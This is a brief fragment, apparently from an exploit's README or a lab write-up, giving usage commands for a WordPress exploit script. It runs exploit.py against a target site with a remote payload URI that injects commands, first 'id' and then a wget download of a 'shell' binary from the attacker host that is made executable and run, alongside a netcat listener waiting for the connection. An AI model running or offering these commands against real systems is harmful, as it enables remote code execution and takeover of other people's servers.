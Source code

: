 python exploit.py -t http://192.168.55.78/wordpress/ --payload-uri "http://192.168.49.55/payload.txt%26cmd=id"
nc -lvp 8000
python exploit.py -t http://192.168.55.78/wordpress/ --payload-uri "http://192.168.49.55/payload.txt%26cmd=wget%20http://192.168.49.55/shell%20-O%20/tmp/shell%20%26%26%20chmod%20777%20/tmp/shell%20%26%26%20/tmp/shell"
